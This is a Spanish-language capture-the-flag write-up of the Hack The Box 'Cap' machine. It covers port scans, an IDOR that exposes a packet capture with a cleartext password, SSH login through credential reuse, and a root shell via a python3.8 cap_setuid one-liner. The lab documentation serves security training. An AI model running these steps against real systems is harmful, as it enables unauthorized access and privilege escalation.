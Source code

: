 ```yaml
---
layout: post
title: Cap
subtitle: Plataforma HTB Dificultad Fácil
cover-img: /assets/img/Cappeq.png
thumbnail-img: /assets/img/Cappeq.png
share-img: /assets/img/Cap.png
author: Elmili72
---
```



## Escaneo general de puertos

Primero empezamos un escaneo general de puertos, para ver como de expuesta está nuestra víctima.

```bash
$ sudo nmap -sS -p- --min-rate 5000 -vv -n -Pn 10.10.10.245 -oG allports
Host is up, received user-set (0.11s latency).
Scanned at 2025-06-09 12:12:40 CEST for 14s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
```

## Escaneo específico de puertos

Una vez tenemos los puertos realizamos un escaneo más específico para ver las versiones de los puertos que están expuestos. En este caso, tenemos los puertos 21 (FTP), 22 (SSH) y 80 (HTTP).

```bash
$ nmap -sCV -p21,22,80 10.10.10.245 -oN target
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 12:15 CEST
Nmap scan report for 10.10.10.245 (10.10.10.245)
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento servicio web

Hacemos un reconocimiento básico de la web con *Whatweb*, y vemos que no hay mucha información útil.

```bash
$ whatweb http://10.10.10.245
http://10.10.10.245 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```

Entramos a la IP víctima y entramos en un Dashboard de un usuario llamado Nathan, tiene un menú pero no es funcional.

![image](https://github.com/user-attachments/assets/3306e2e5-ac0c-4a74-933e-955119736955)

Dos apartados del Dashboard son IP Config y Network Status, pero tampoco nos valen de mucho, más que para tener más información de que está corriendo en cada puerto y ver que no estamos encerrados en otro equipo por el "IP Config".

![image](https://github.com/user-attachments/assets/be94ffe6-7cd6-4c7f-86ee-4febd54b8d3d)

## Explotación

Si nos fijamos en la URL, antes ponía 1. Esto nos lleva a pensar que podemos explotar un IDOR (Insecure Direct Object Reference) y vemos que nos aparecen cargados unos paquetes de red que podemos bajarnos como una captura de wireshark.

![image](https://github.com/user-attachments/assets/9f889a37-8467-440b-9d63-ae5753e8bd48)

Buscamos un poco el tráfico grabado y vemos una password en texto claro. Viendo el código de Login serguramente nos permita entrar al servicio FTP, pero podemos confiar en que hayan hecho reutilización de credenciales y probar directamente con el SSH.

![image](https://github.com/user-attachments/assets/c30247ef-9e05-433b-abfe-f6827b6bdabe)

### Intrusión

Efectivamente, nos vale esa misma contraseña para entrar al SSH directamente y conseguimos nuestra flag de user.

```bash
$ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ED25519) to the list of known hosts.
nathan@10.10.10.245's password:
Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
1618b0******486488031
```

## Post-Explotación

### Escalada de Privilegios

De nuevo y como siempre, nuestra parte favorita. Una escalada sencilla pero que viene bien para asentar conocimientos en el tema de exploitación de *Capabilities*. Muy parecido a un binary abusing con *Sudo*.

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Rápidamente al encontrar "/usr/bin/python3.8" vamos a nuestro amigo *GTFOBins*. Y conseguimos nuestra flag de root sin ningún problema.

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# whoami
root
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# cat /root/root.txt
382dab******41ab640d
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
